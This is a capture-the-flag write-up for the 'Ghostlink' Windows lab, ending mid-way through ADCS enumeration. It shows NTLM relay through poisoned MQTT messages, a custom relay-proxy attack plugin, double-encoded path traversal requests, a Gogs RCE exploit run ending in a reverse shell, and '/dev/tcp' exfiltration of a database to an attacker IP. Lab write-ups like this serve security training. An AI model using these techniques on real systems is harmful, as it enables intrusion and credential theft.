

	<font size="10">Ghostlink</font>

​		27<sup>th</sup> April 2026

​		Prepared By: ctrlzero

​		Machine Author: ctrlzero

​		Difficulty: <font color=red>Hard</font>


# Synopsis

`Ghostlink` is a Hard difficulty Windows machine featuring an Active Directory domain controller and a web server. Enumeration reveals a critical `MQTT` service used for node tracking, which exposes two internal hosts: a secure file sharing app and a `Gogs` code host. The attacker modifies the MQTT health check to trigger NTLM authentication, relaying credentials to authenticate as the `svc_canary` service account. Using this authentication, the attacker exploits a double URL-encoded path traversal vulnerability to exfiltrate the service account's `ntuser.dat` file. Analysis of the registry hive reveals a recent document for `db.zip`, containing KeePass credentials for the Gogs application. These credentials are then leveraged to exploit an RCE vulnerability CVE-2025-8110 in Gogs to obtain a foothold. Once on the system, the attacker cracks a Gogs hash to log in as the local user `nvirelli`. Finally, the ESC11 vulnerability in ADCS allows the attacker to request a Domain Controller certificate and compromise the domain.

## Skills Required

- Network enumeration
- MQTT protocol familiarity
- NTLM relay attacks and HTTP web application interaction.
- Path traversal fundamentals

## Skills Learned

- Leveraging MQTT health checks to trigger and capture NTLM authentication from service accounts.
- Double URL encoding bypass techniques
- Digital forensic artifact analysis

# Enumeration

## Nmap

```bash
sudo nmap -Pn -sV -A -p- -T4 ghostlink.htb
<SNIP>
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ghost Protocol Zero
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-27 22:16:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/brokers/client_status/mqttui-22d4228f: {"status":"offline", "username":"(null)","ts":1777328224699,"reason_code":"0","client_id":"mqttui-22d4228f","IPv4":"127.0.0.1"}
|     $SYS/brokers/client_status/mqttui-8cec5094: {"status":"online", "username":"(null)", "ts":1777328222622,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-8cec5094","clean_start":1, "IPv4":"127.0.0.1"}
|     $SYS/brokers/client_status/mqttui-913c5dff: {"status":"offline", "username":"(null)","ts":1777328220547,"reason_code":"0","client_id":"mqttui-913c5dff","IPv4":"127.0.0.1"}
|_    $SYS/brokers/client_status/mqttui-b0e2cec1: {"status":"online", "username":"(null)", "ts":1777328226763,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-b0e2cec1","clean_start":1, "IPv4":"127.0.0.1"}
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after:  2027-03-03T16:53:53
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
<SNIP>

Host script results:
|_clock-skew: 8h00m01s
| smb2-time: 
|   date: 2026-04-27T22:17:04
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   131.93 ms 10.10.14.1
2   133.06 ms ghostlink.htb (10.129.244.158)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 252.70 seconds
```

Initial enumeration with `nmap` shows the typical scan output for a Windows Server domain controller. From this output, we get a few key pieces of information, such as the hostname of the domain controller as well as the presence of an `IIS` web server and an `mqtt` service.

Browsing to the web server, we're greeted with nothing more than a landing page that seems to belong to the APT group `Ghost Protocol Zero`.


We can continue to enumerate potential vHosts and directory fuzzing, but these scans will return little to no information. At this point, we can move on and inspect the `mqtt` service more in-depth.

From the `nmap` output, it seems that the `mqtt` service is being used as a node tracking system with potential health checking and, more importantly, seems to allow anonymous connections.

```bash
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/brokers/client_status/mqttui-22d4228f: {"status":"offline", "username":"(null)","ts":1777328224699,"reason_code":"0","client_id":"mqttui-22d4228f","IPv4":"127.0.0.1"}
|     $SYS/brokers/client_status/mqttui-8cec5094: {"status":"online", "username":"(null)", "ts":1777328222622,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-8cec5094","clean_start":1, "IPv4":"127.0.0.1"}
|     $SYS/brokers/client_status/mqttui-913c5dff: {"status":"offline", "username":"(null)","ts":1777328220547,"reason_code":"0","client_id":"mqttui-913c5dff","IPv4":"127.0.0.1"}
|_    $SYS/brokers/client_status/mqttui-b0e2cec1: {"status":"online", "username":"(null)", "ts":1777328226763,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-b0e2cec1","clean_start":1, "IPv4":"127.0.0.1"}
```

We can obtain an `mqtt` client and connect to this service to get a listing of all topics. A search on the internet for clients could lead here: `https://github.com/awesome-mqtt/awesome-mqtt#clients` which has an extensive list of related applications for the `mqtt` service. The [MQTT TUI](https://github.com/EdJoPaTo/mqttui) client from this list will be used.

We can start by connecting to the `mqtt` service:
```bash
$ ./mqttui -b mqtt://ghostlink.htb
```

The list of topics is interesting and seems to be collecting information about nodes in various critical infrastructures, but more notably, it is also tracking metrics about internal systems where we find additional nodes.
* `gpz-op26-secure.ghostlink.htb`: potential repository 
* `gpz-op26-toolkits.ghostlink.htb`: potential secure file sharing application


Quickly browsing to these host names, additional information can be noted.

`http://gpz-op26-secure.ghostlink.htb/` seems to be an authenticated application and is also tied to a health check in `mqtt`.


`http://gpz-op26-toolkits.ghostlink.htb/` is a `Gogs` installation potentially containing information about the group's internal tools or exploits. `Gogs` does not have an indication of the installed version, but by inspecting the source code of the page, we can do a small bit of reverse engineering. One common method is to look for hash values related to git commits.


`http://gpz-op26-toolkits.ghostlink.htb/` shows a hash value in the `gogs.js` and `gogs.min.css` files. By using this hash value in the commit history, we can see that `Gogs` is on version `0.13.3` 

```html
	<link rel="stylesheet" href="/css/semantic-2.4.2.min.css">
	<link rel="stylesheet" href="/css/gogs.min.css?v=5084b4a9b77a506f5e287e82e945e1c6882b827a">
	<noscript>
		<style>
			.dropdown:hover > .menu { display: block; }
			.ui.secondary.menu .dropdown.item > .menu { margin-top: 0; }
		 </style>
	</noscript>

	<script src="/js/semantic-2.4.2.min.js"></script>
	<script src="/js/gogs.js?v=5084b4a9b77a506f5e287e82e945e1c6882b827a"></script>

	<title>Gogs</title>

	<meta name="theme-color" content="#ff5343">
```

`https://github.com/gogs/gogs/commit/5084b4a9b77a506f5e287e82e945e1c6882b827a`


A quick search on the internet for CVE's associated with this version will lead us to [CVE-2025-8110](https://www.wiz.io/blog/wiz-research-gogs-cve-2025-8110-rce-exploit) with a public PoC available [here](https://github.com/zAbuQasem/gogs-CVE-2025-8110). However, because this is an authenticated RCE exploit it is not useful at this time.

Going back to the `mqtt` service we can try to update the topic to see if we can get an idea of the health checking on the `secureshare` topic.

We'll first read the topic, modify the `URL` and then publish the message back to the topic with `responder` running in parallel.

```bash
$ ./mqttui -b mqtt://ghostlink.htb r "GhostProtocolZero/systems/node/secureshare/healthcheck";echo

GhostProtocolZero/systems/node/secureshare/healthcheck
{"timestamp":"2026-27-04-15:45:45","node":"node-6","telemetry":{"healthy":true,"url":"gpz-op26-secure.ghostlink.htb/healthcheck","lastCheckSecAgo":30,"responseCode":"200","ip":"172.16.20.10"}}
```

```bash
$ sudo responder -I tun0 -v
<SNIP>
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
<SNIP>
[+] Listening for events...
```

```bash
$ j='{"timestamp":"2026-03-03-09:26:21","node":"node-6","telemetry":{"healthy":true,"url":"http://10.10.14.2","lastCheckSecAgo":45,"responseCode":"200","ip":"172.16.20.10"}}'

$ ./mqttui -b mqtt://ghostlink.htb publish -r "GhostProtocolZero/systems/node/secureshare/healthcheck" $j
```


After a few seconds, we do see a response from a service account `svc_canary`, but the hash is not crackable. Instead, we can try an `http` relay with `ntlmrelayx` and a `SOCKS` proxy.
```bash
[HTTP] Sending NTLM authentication request to 10.129.244.158
[HTTP] GET request from: ::ffff:10.129.244.158  URL: / 
[HTTP] NTLMv2 Client   : 10.129.244.158
[HTTP] NTLMv2 Username : ghostlink\svc_canary
[HTTP] NTLMv2 Hash     : svc_canary::ghostlink:d1beb6f540479584:75AEF95746EAD5E7F833B736054F48AC:010100000000000011287CBA9CD6DC01184FAAF324E9787500000000020008003600580055004B0001001E00570049004E002D004C0031004A005000380059004E004A0053004B004800040014003600580055004B002E004C004F00430041004C0003003400570049004E002D004C0031004A005000380059004E004A0053004B0048002E003600580055004B002E004C004F00430041004C00050014003600580055004B002E004C004F00430041004C0008005000500000000000000000000000004000000DB6CF6EF7700A1A4F655BEC04A2C100376AD9B55FD5EA20B964E589C949EE679EA6E0B56B1FC312F086641EDEA22BE27F255F4E3441AFE2B8AB0BC43190031D0A0010000000000000000000000000000000000009001E0048005400540050002F00310030002E00310030002E00310034002E0032000000000000000000
```

First, a simple test can be performed, changing the `http` port to something higher than `1024` to avoid needing root privileges as well as disabling other listeners. 

> *Note: this is optional if you're already running as the `root` user.*

After a few seconds, we can see the relay is successful and the page content is returned.
```bash
$ ntlmrelayx.py -t http://gpz-op26-secure.ghostlink.htb --http-port 8888 --no-smb-server --no-rdp-server --no-mssql-server --no-rpc-server --keep-relaying
<SNIP>
[*] Servers started, waiting for connections
[*] (HTTP): Client requested path: /
[*] (HTTP): Client requested path: /
[*] (HTTP): Connection from 10.129.244.158 controlled, attacking target http://gpz-op26-secure.ghostlink.htb
[*] (HTTP): Client requested path: /
[*] HTTP server returned error code 200, treating as a successful login
[*] (HTTP): Authenticating connection from GHOSTLINK/SVC_CANARY@10.129.244.158 against http://gpz-op26-secure.ghostlink.htb SUCCEED [1]
DEFAULT CASE
200 OK
b'<!DOCTYPE html>\n<html lang="en">\n\n<head>\n    <meta charset="utf-8" />\n    <meta name="viewport" content="width=device-width, initial-scale=1.0" />\n    <meta name="description" content="Ghost Protocol Zero - Secure File Sharing" />\n    <base href="/" />\n    <link rel="stylesheet" href="lib/bootstrap/dist/css/bootstrap.min.css" />\n    <link rel="stylesheet" href="app.css" />\n    <link rel="icon" type="image/x-icon" href="favicon.png" />\n    <title>Ghost Protocol Zero | Secure Operations Channel</title>\n</head>\n\n<body>
```

To be able to render the page, we'll need to use a `socks` proxy with `ntlmrelayx`. Once the connection has been established, the browser can be configured to use the `socks` to view the site.
```bash
$ ntlmrelayx.py -t http://gpz-op26-secure.ghostlink.htb --http-port 8888 --no-smb-server --no-rdp-server --no-mssql-server --no-rpc-server --keep-relaying -socks 
<SNIP>
[*] (HTTP): Client requested path: /
[*] HTTP server returned error code 200, treating as a successful login
[*] (HTTP): Authenticating connection from GHOSTLINK/SVC_CANARY@10.129.244.158 against http://gpz-op26-secure.ghostlink.htb SUCCEED [1]
[*] SOCKS: Adding HTTP://GHOSTLINK/SVC_CANARY@gpz-op26-secure.ghostlink.htb(80) [1] to active SOCKS connection. Enjoy
```


# Foothold

> *Note: At the time of this writing, a new tool, [ghostsurf](https://github.com/senderend/ghostsurf), has surfaced and removes the need for custom tooling/modification to ntlmrelayx. For the sake of detail, this is the example of the custom approach initially used.*

```python
# httpattack.py

import time
import threading
from http.server import HTTPServer, BaseHTTPRequestHandler
from selenium import webdriver
from selenium.webdriver.chrome.options import Options as ChromeOptions
from impacket.examples.ntlmrelayx.attacks import ProtocolAttack
from impacket.examples.ntlmrelayx.attacks.httpattacks.adcsattack import ADCSAttack
from impacket.examples.ntlmrelayx.attacks.httpattacks.sccmpoliciesattack import SCCMPoliciesAttack
from impacket.examples.ntlmrelayx.attacks.httpattacks.sccmdpattack import SCCMDPAttack

PROTOCOL_ATTACK_CLASS = "HTTPAttack"

class HTTPAttack(ProtocolAttack, ADCSAttack, SCCMPoliciesAttack, SCCMDPAttack):
    """
    This is the default HTTP attack. This attack only dumps the root page, though
    you can add any complex attack below. self.client is an instance of urrlib.session
    For easy advanced attacks, use the SOCKS option and use curl or a browser to simply
    proxy through ntlmrelayx
    """
    PLUGIN_NAMES = ["HTTP", "HTTPS"]

    def run(self):

        if self.config.isADCSAttack:
            ADCSAttack._run(self)
        elif self.config.isSCCMPoliciesAttack:
            SCCMPoliciesAttack._run(self)
        elif self.config.isSCCMDPAttack:
            SCCMDPAttack._run(self)
        else:
            target = self.client.host
            scheme = "https" if self.client.__class__.__name__ == "HTTPSConnection" else "http"
            target_url = f"{scheme}://{target}/"

            print(f"[*] Starting relay proxy for {target_url}")
            t = threading.Thread(
                target=self._browser_thread,
                args=(target_url,),
                daemon=True,
            )
            t.start()

    def _browser_thread(self, target_url):
        proxy_port = 18080
        relay_client = self.client
        relay_lock = threading.Lock()

        class RelayProxyHandler(BaseHTTPRequestHandler):
            def log_message(self, format, *args):
                pass  # suppress proxy access logs

            def do_request(self, method):
                path = self.path
                headers_to_forward = {
                    k: v for k, v in self.headers.items()
                    if k.lower() not in ("host", "proxy-connection")
                }
                body = None
                if "content-length" in self.headers:
                    body = self.rfile.read(int(self.headers["content-length"]))

                # Serialize all requests — http.client is not thread-safe
                with relay_lock:
                    try:
                        relay_client.request(method, path, body=body, headers=headers_to_forward)
                        resp = relay_client.getresponse()
                        resp_body = resp.read()
                        status = resp.status
                        resp_headers = resp.getheaders()
                    except Exception as e:
                        self.send_error(502, f"Relay error: {e}")
                        return

                self.send_response(status)
                for k, v in resp_headers:
                    # Strip auth challenge headers so Chrome doesn't re-negotiate
                    if k.lower() in ("www-authenticate", "proxy-authenticate"):
                        continue
                    self.send_header(k, v)
                self.end_headers()
                self.wfile.write(resp_body)

            def do_GET(self):     self.do_request("GET")
            def do_POST(self):    self.do_request("POST")
            def do_PUT(self):     self.do_request("PUT")
            def do_DELETE(self):  self.do_request("DELETE")
            def do_HEAD(self):    self.do_request("HEAD")
            def do_OPTIONS(self): self.do_request("OPTIONS")

        server = HTTPServer(("127.0.0.1", proxy_port), RelayProxyHandler)
        proxy_thread = threading.Thread(target=server.serve_forever, daemon=True)
        proxy_thread.start()
        print(f"[+] Relay proxy listening on 127.0.0.1:{proxy_port}")

        proxy_url = f"http://127.0.0.1:{proxy_port}/"

        options = ChromeOptions()
        options.add_argument("--no-sandbox")
        options.add_argument("--disable-dev-shm-usage")
        options.add_argument("--ignore-certificate-errors")
        options.add_argument("--window-size=1440,1080")

        try:
            driver = webdriver.Chrome(options=options)
        except Exception as e:
            print(f"[!] Selenium failed to launch Chrome: {e}")
            server.shutdown()
            return

        driver.get(proxy_url)
        print(f"[+] Chrome navigated to relay proxy -> {target_url}")

        # Keep thread alive while browser window remains open
        while True:
            try:
                _ = driver.window_handles
                time.sleep(2)
            except Exception:
                print("[*] Browser closed.")
                server.shutdown()
                break
```

Using the [ghostsurf](https://github.com/senderend/ghostsurf) tool, we can relay the `NTLM` authentication and then use the `socks` proxy with a browser to continuously interact with the web application. However, at the time of this writing, there is an issue with current codebase that requires a small patch. Without it, an error `[-] (HTTP): Exception while Negotiating NTLM with http://gpz-op26-secure.ghostlink.htb: "'NTLMRelayxConfig' object has no attribute 'remove_target'` will prevent a successful relay.

```bash
$ git clone https://github.com/senderend/ghostsurf.git
Cloning into 'ghostsurf'...
remote: Enumerating objects: 354, done.
remote: Counting objects: 100% (10/10), done.
remote: Total 354 (delta 9), reused 9 (delta 9), pack-reused 344 (from 1)
Receiving objects: 100% (354/354), 103.52 KiB | 913.00 KiB/s, done.
Resolving deltas: 100% (166/166), done.

$ cd ghostsurf
On Line 52 of: ghostsurf/lib/relay/utils/config.py
Add: self.remove_target = False
```

Relaying with `Ghostsurf`:
```bash
$ ./ghostsurf.py -t http://gpz-op26-secure.ghostlink.htb -r -k --http-port 8888 --no-smb-server
<SNIP>
[*] Target: http://gpz-op26-secure.ghostlink.htb
[*] SOCKS proxy started. Listening on 127.0.0.1:1080
<SNIP>
[*] Servers started, waiting for connections
Type help for list of commands
ghostsurf> [*] (HTTP): Client requested path: /
[*] (HTTP): Client requested path: /
[*] (HTTP): Connection from 10.129.244.158 controlled, attacking target http://gpz-op26-secure.ghostlink.htb
[*] (HTTP): Client requested path: /
[*] HTTP server returned error code 200, treating as a successful login
[*] (HTTP): Authenticating connection from GHOSTLINK/SVC_CANARY@10.129.244.158 against http://gpz-op26-secure.ghostlink.htb SUCCEED [1]
[*] SOCKS: Adding GHOSTLINK/SVC_CANARY@gpz-op26-secure.ghostlink.htb(80) to active SOCKS connection. Enjoy
```

Using a browser, we can point it to the `socks` proxy and begin reviewing the web application. We can see that it is a secure file sharing endpoint that will encrypt all uploads server-side for an extended period of time. A test file can be uploaded as expected and returns a download link to the encrypted file. 


We can then configure Burp or Caido to use the `socks` as an upstream proxy with the following configuration:


Using Burp, we can then use the download link and see that it does in fact, return an encrypted file attachment.


Attempting to try a path traversal will return a `403` error. URL encoding the same payload will result in the same error. However, we can attempt a double URL encoded payload as a final bypass attempt and see that it will return a `200` response with the expected file content.

```bash
GET /api/download/..\..\..\..\..\..\..\windows\win.ini HTTP/1.1
```


```bash
[GET /api/download/%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cwindows%5cwin.ini HTTP/1.1](<GET /api/download/%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%77%69%6e%64%6f%77%73%5c%77%69%6e%2e%69%6e%69 HTTP/1.1>)
```


```bash
GET /api/download/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%2577%2569%256e%2564%256f%2577%2573%255c%2577%2569%256e%252e%2569%256e%2569 HTTP/1.1
```


Further enumeration for interesting files will not be successful, as we're not entirely sure what might be available that would be considered interesting. What we do know is that we're authenticated as the `ghostlink\svc_canary` user, so we can attempt to download `ntuser.dat` from the user's profile and inspect it with `regripper` for any recently opened documents.

```bash
GET /api/download/..\..\..\..\..\..\..\users\svc_canary\ntuser.dat HTTP/1.1

# Double URL Encoded
GET /api/download/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%2575%2573%2565%2572%2573%255c%2573%2576%2563%255f%2563%2561%256e%2561%2572%2579%255c%256e%2574%2575%2573%2565%2572%252e%2564%2561%2574 HTTP/1.1
```


```bash
$ regripper -r ntuser.dat -a | grep -i recent -A 3 -B 3
<SNIP>
(NTUSER.DAT) Gets user's Adobe app cRecentFiles values

Could not access Software\Adobe\Adobe Acrobat\\AVGeneral\cRecentFiles

Could not access Software\Adobe\Acrobat Reader\\AVGeneral\cRecentFiles

----------------------------------------
allowedenum v.20200511
--

----------------------------------------
mmc v.20200517
(NTUSER.DAT) Get contents of user's MMC\Recent File List key

Software\Microsoft\Microsoft Management Console\Recent File List not found.
----------------------------------------
mmo v.20200517
(NTUSER.DAT) Checks NTUSER for Multimedia\Other values [malware]
--
Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2 not found.
----------------------------------------
<SNIP>

----------------------------------------
recentapps v.20200515
- Gets contents of user's RecentApps key

Software\Microsoft\Windows\CurrentVersion\Search\RecentApps not found.
----------------------------------------
recentdocs v.20200427
(NTUSER.DAT) Gets contents of user's RecentDocs key

RecentDocs
**All values printed in MRUList\MRUListEx order.
Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs
LastWrite Time: 2026-02-25 14:04:19Z

Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\.zip
LastWrite Time 2026-02-25 14:04:19Z
MRUListEx = 0
  0 = db.zip
```

At the bottom of this output, we can see there is a `RecentDocs` entry for a file named `db.zip`. Entries for this list are created as `.lnk` files in `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Recent`, so we can easily reconstruct the path for this file.
```bash
GET /api/download/..\..\AppData\Roaming\Microsoft\Windows\Recent\db.zip.lnk HTTP/1.1
# Double URL Encoded
GET /api/download/%252e%252e%255c%252e%252e%255cAppData%255cRoaming%255cMicrosoft%255cWindows%255cRecent%255cdb.zip.lnk HTTP/1.1

GET /api/download/..\..\..\..\..\..\users\svc_canary\AppData\Roaming\Microsoft\Windows\Recent\db.zip.lnk HTTP/1.1
# Double URL Encoded
GET /api/download/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%2575%2573%2565%2572%2573%255c%2573%2576%2563%255f%2563%2561%256e%2561%2572%2579%255c%2541%2570%2570%2544%2561%2574%2561%255c%2552%256f%2561%256d%2569%256e%2567%255c%254d%2569%2563%2572%256f%2573%256f%2566%2574%255c%2557%2569%256e%2564%256f%2577%2573%255c%2552%2565%2563%2565%256e%2574%255c%2564%2562%252e%257a%2569%2570%252e%256c%256e%256b HTTP/1.1
```


```bash
$ strings db.zip.lnk 
OPERAT~1
MANAGE~1
db.zip
C:\Users\svc_canary\Documents\Operations\Management\db.zip
gpz-op26-secure
1SPS
```

Now we have a full path to the `db.zip` file. Using the path traversal, we can download that as well. When extracted, it reveals a `Keepass` database containing logon credentials to the `http://gpz-op26-toolkits.ghostlink.htb/` endpoint.
```bash
GET /api/download/..\..\..\..\..\..\Users\svc_canary\Documents\Operations\Management\db.zip HTTP/1.1

# Double URL Encoded
GET /api/download/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cUsers%255csvc_canary%255cDocuments%255cOperations%255cManagement%255cdb.zip HTTP/1.1
```


Once the response is saved to a file, we can then verify that it's a valid archive.

```bash
$ unzip -l db.zip 
Archive:  db.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      240  2026-02-24 20:48   .key.keyx
     4686  2026-03-03 11:41   db.kdbx
---------                     -------
     4926                     2 files

$ keepass2 db.kdbx
```


In the Recycle Bin of the Keepass database, we can see that a previously deleted entry was not removed entirely. If we save the attachment, we can see that it contains information about the domain password policy as described in the entry title and could be useful later on.



Since the `vroth` user is the only entry that seems not to have been migrated to the new password manager, we can try that account first and see that it was a successful logon.


At this time, we now have credentials that can be used with the previous CVE that was identified. After modifying a bit of the code to remove functions that are not required, as well as setting the credentials, we can successfully obtain a reverse shell.
```bash
$ python3 CVE-2025-8110.py -u http://gpz-op26-toolkits.ghostlink.htb -lh 10.10.14.2 -lp 10001
[+] Authenticated successfully
Token generation status: 200
[+] Application token: e392687a2edaac0650f4b82e9f17b83e11c5e1f0
Repo creation status: 201
Cloning into '/tmp/519302e8e83d'...
<SNIP>
 1 file changed, 1 insertion(+)
 create mode 120000 malicious_link
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 299 bytes | 299.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
To http://gpz-op26-toolkits.ghostlink.htb/nvirelli/519302e8e83d.git
   e73c6f2..2a46903  master -> master
[+] Exploit sent, check your listener!
```

```bash
$ listening on [any] 10001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.244.158] 49876
bash: cannot set terminal process group (646): Inappropriate ioctl for device
bash: no job control in this shell
git@gpz-op26-toolkits:~/data/tmp/local-repo/7$ 
```
# Lateral Movement

Now that we have a shell, some initial enumeration can be performed. Since we know that there are a few users registered to `Gogs` and that we can see the user `nvirelli` is a local user to the machine, we can try the low-hanging fruit first.

We can exfiltrate the `gogs.db` by doing the following:
```bash
# ATTACKER
$ nc -lvnp 4444 > gogs.db
listening on [any] 4444 ...

# TARGET
$ cat /opt/gogs/data/gogs.db > /dev/tcp/10.10.14.2/4444
```

A search on the internet for a `Gogs` hash to `hashcat` converter can be found [here](https://github.com/shinris3n/GogsToHashcat).

```bash
$ python3 GogsToHashcat.py -n 10000 DW3YdxPy25 8d9b3a01c3a0260b39db011aed1dbf239b8b1b28af6141f28aa01d3b3ab8ffd4408bc5b9065ff957e716375a7bec1755d3e8
sha256:10000:RFczWWR4UHkyNQ==:jZs6AcOgJgs52wEa7R2/I5uLGyivYUHyiqAdOzq4/9RAi8W5Bl/5V+cWN1p77BdV0+g=
```

Because the hash is `PBKDF2`, it can be computationally expensive to crack. To speed up the process, we can reference the password policy information found in the Keepass Recycle Bin and build a better wordlist. By trimming the wordlist to match the minimum password requirements, we can rule out potential passwords that do not match.


```bash
$ wc rockyou.txt 
 14344392  14442062 139921507 rockyou.txt

$ grep -E '^.{20,}$' rockyou.txt > trimmed.txt

$ wc trimmed.txt 
  46602   58769 1282532 trimmed.txt
```

```bash
$ hashcat -a 0 -m 10900 sha256:10000:RFczWWR4UHkyNQ==:jZs6AcOgJgs52wEa7R2/I5uLGyivYUHyiqAdOzq4/9RAi8W5Bl/5V+cWN1p77BdV0+g= ~/wordlists/trimmed.txt 
hashcat (v6.2.6) starting

<SNIP>

sha256:10000:RFczWWR4UHkyNQ==:jZs6AcOgJgs52wEa7R2/I5uLGyivYUHyiqAdOzq4/9RAi8W5Bl/5V+cWN1p77BdV0+g=:u47YUclrDiwWxBheaSzI
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:10000:RFczWWR4UHkyNQ==:jZs6AcOgJgs52wEa7R2/I...dV0+g=
<SNIP>
```

Once the hash has been successfully cracked, we can then pivot to the `nvirelli` user.
```bash
git@gpz-op26-toolkits:/tmp$ su nvirelli
Password: 
nvirelli@gpz-op26-toolkits:/tmp$ cd
nvirelli@gpz-op26-toolkits:~$ ls
user.txt
```
# Privilege Escalation

We can now set up a pivot through the `gpz-op26-toolkits` machine and perform initial AD enumeration with `Bloodhound` and other various toolkits. However, as we know that there is an ADCS deployment, we can quickly look for potential templates that might be vulnerable to common ADCS attacks.
```bash
$ proxychains -q certipy find -u 'nvirelli@ghostlink.htb' -p u47YUclrDiwWxBheaSzI -dc-host dc01.ghostlink.htb -ns 10.129.244.158 -dns-tcp -timeout 10 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'ghostlink-GPZ-OP26-SECURE-CA' via RRP
[*] Successfully retrieved CA configuration for 'ghostlink-GPZ-OP26-SECURE-CA'
[*] Checking web enrollment for CA 'ghostlink-GPZ-OP26-SECURE-CA' @ 'gpz-op26-secure.ghostlink.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
